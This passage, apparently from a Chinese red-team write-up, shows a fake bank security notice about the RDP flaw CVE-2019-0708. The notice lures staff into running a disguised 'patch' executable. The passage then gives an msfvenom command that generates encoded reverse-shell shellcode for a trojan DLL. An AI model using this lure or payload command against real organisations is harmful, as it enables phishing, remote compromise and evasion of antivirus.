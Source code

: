 大致内容为：

标题：`上海xxx关于业务网、办公网终端安全紧急加固公告`

背景

北京时间 2019 年 5 月 15 日微软发布安全补丁修复了 CVE 编号为 CVE-2019-0708 的 Windows 远程桌面服务(RDP)远程代码执行漏洞，该漏洞在不需身份认证的情况下即可远程触发，危害与影响面极大。

受影响的版本

*   Windows 7
*   Windows Server 2008 R2
*   Windows Server 2008
*   Windows Server 2003
*   Windows XP

由于该漏洞与去年的“Wannacry”勒索病毒具有相同等级的危害，由总行信息科技部研究决定，先推行漏洞加固补丁，确保业务网、办公网全部修补漏洞。

安装方式

解压“上海xxxRDP漏洞补丁.zip”,解压密码：xxx123，解压成功后，双击运行“RDP-VulnPatch.exe”即可：

修复成功会提示“修复漏洞成功！”

上海xxx

二零一九年五月二十日

其中解压密码也是目标常见的弱口令。

## 0x04 制作木马

通过手工制作一个`Windows/shell/reverse_tcp`的木马DLL，先获得Msfvenom生成的shellcode。

```
$ /opt/metasploit-framework/bin/msfvenom -p windows/shell/reverse_tcp LHOST=xxxx LPORT=8899 -f c -e x86/shikata_ga_nai -i 20 
```

![2019-05-21-17-39-23](../img/3e6e55593074bfd6535e440c6e423335.png)
